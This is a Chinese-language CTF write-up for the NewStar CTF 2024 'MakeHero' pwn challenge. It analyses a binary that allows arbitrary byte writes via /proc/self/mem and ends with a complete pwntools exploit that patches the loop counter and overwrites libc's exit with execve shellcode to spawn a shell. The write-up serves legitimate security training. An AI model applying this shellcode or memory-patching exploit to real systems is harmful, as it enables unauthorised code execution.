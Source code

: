 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# MakeHero

## 逆向分析

固定步骤，拖入 IDA 分析

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  unsigned __int8 v4; // [rsp+3h] [rbp-8Dh] BYREF
  int v5; // [rsp+4h] [rbp-8Ch]
  unsigned __int64 v6; // [rsp+8h] [rbp-88h] BYREF
  char v7[120]; // [rsp+10h] [rbp-80h] BYREF
  unsigned __int64 v8; // [rsp+88h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  sub_1430(a1, a2, a3);
  v5 = 2;
  puts("Welcome to NewStarCTF week4!");
  puts(aEek4);
  printf(asc_20F8);
  __isoc99_scanf("%100s", v7);
  printf(aS, v7);
  puts(asc_2158);
  while ( 1 )
  {
    if ( !v5-- )
    {
      puts(asc_2270);
      sleep(3u);
      printf(asc_22B1, v7);
      exit(0);
    }
    printf(asc_217F);
    puts(asc_2198);
    if ( (unsigned int)__isoc99_scanf("%lx %hhx", &v6, &v4) != 2 )
    {
      puts(asc_2208);
      puts(asc_2233);
      exit(-1);
    }
    if ( v5 == 1 )
    {
      if ( v6 < qword_4060 || v6 >= qword_4068 )
        goto LABEL_7;
LABEL_11:
      sub_1369(v6, v4);
    }
    else
    {
      if ( v6 >= qword_4050 && v6 < qword_4058 )
        goto LABEL_11;
LABEL_7:
      puts(aOhNo);
    }
  }
}
```

```c
int __fastcall sub_1369(__off_t a1, char a2)
{
  char buf[4]; // [rsp+4h] [rbp-1Ch] BYREF
  __off_t offset; // [rsp+8h] [rbp-18h]
  int fd; // [rsp+1Ch] [rbp-4h]

  offset = a1;
  buf[0] = a2;
  fd = open("/proc/self/mem", 2);
  if ( fd == -1 )
  {
    perror("open /proc/self/mem");
    exit(1);
  }
  if ( lseek(fd, offset, 0) == -1 )
  {
    perror("lseek");
    close(fd);
    exit(1);
  }
  if ( write(fd, buf, 1uLL) != 1 )
    perror("write");
  return close(fd);
}
```

可知，程序实现了通过 `/proc/self/mem` 实现了任意地址的改写

:::tip
程序是通过 `open("/proc/self/mem")` 的方式实现改写，因此无视各地址段的读写权限
:::

![读入](/assets/images/wp/2024/week4/makehero_1.png)

程序读入两个数字，`%lx` 是地址，`%hhx` 是要改的字节

![限制输入范围](/assets/images/wp/2024/week4/makehero_2.png)

其中，程序对 `v6` 的取值做了限制

在 `sub_1430` 函数中，对这几个全局变量做了初始化

![全局变量初始化](/assets/images/wp/2024/week4/makehero_3.png)

结合 gdb 动调时的地址分布，我们可知，`qword_4060` 和 `qword_4068` 是程序 ELF `的地址，qword_4050` 和 `qword_4058` 是程序 libc 的地址

## Pwn it

程序能任意写两次，第一次能改写 ELF，第二次能改写 libc，仅有的两次机会是不足以让我们拿到 flag 的，我们需要通过仅有的两次机会来让我们获得「无限次」的机会

分析发现，程序的退出点在这里

![程序的退出点](/assets/images/wp/2024/week4/makehero_4.png)

因此我们能否通过修改跳转条件或是其他，来让程序不执行退出呢

![修改跳转条件](/assets/images/wp/2024/week4/makehero_5.png)

我们或许可以通过改 jnz 为其他条件跳转来实现一直执行，也可以让 `v5--` 变为 `v5++` 来实现「无限次」任意写

![修改 v5](/assets/images/wp/2024/week4/makehero_6.png)

在这，我选择修改 `--` 为 `++`，就是将 `8D 50 FF` 改为 `8D 50 01`

![修改 v5](/assets/images/wp/2024/week4/makehero_7.png)

改完后，我们能一直任意写，剩下的就很多种解法了

我选择将 exit 处代码改为 shellcode，来 GetShell

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

p = process('./MakeHero')
libc = ELF("./libc.so.6")

def u8_ex(data) -> int:
    assert isinstance(data, (str, bytes)), "wrong data type!"
    length = len(data)
    assert length <= 1, "len(data) > 1!"
    if isinstance(data, str):
        data = data.encode('latin-1')
    data = data.ljust(1, b"\x00")
    return unpack(data, 8)

def write_mem(addr, byte):
    if isinstance(byte, bytes):
        sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(u8_ex(byte)))
    elif isinstance(byte, int):
        sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(byte))

def write_code(addr, code):
    for i in range(len(code)):
        write_mem(addr + i, code[i])

ru(b'** ')
code_base = int(p.recvuntil(b' -', drop=True), 16)

ru(b'## ')
libc_base = int(p.recvuntil(b' -', drop=True), 16)

sl(b'inkey')

write_mem(code_base + 0x1877, 0x1)
write_mem(libc_base + libc.sym.exit + 4, b'\x90')
write_mem(code_base + 0x1877, 0x1)
write_code(libc_base + libc.sym.exit + 5, b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
sl(b'bye')

p.interactive()
```

这题既能改 ELF，也能改 libc，应该会有很多不一样的解法吧（

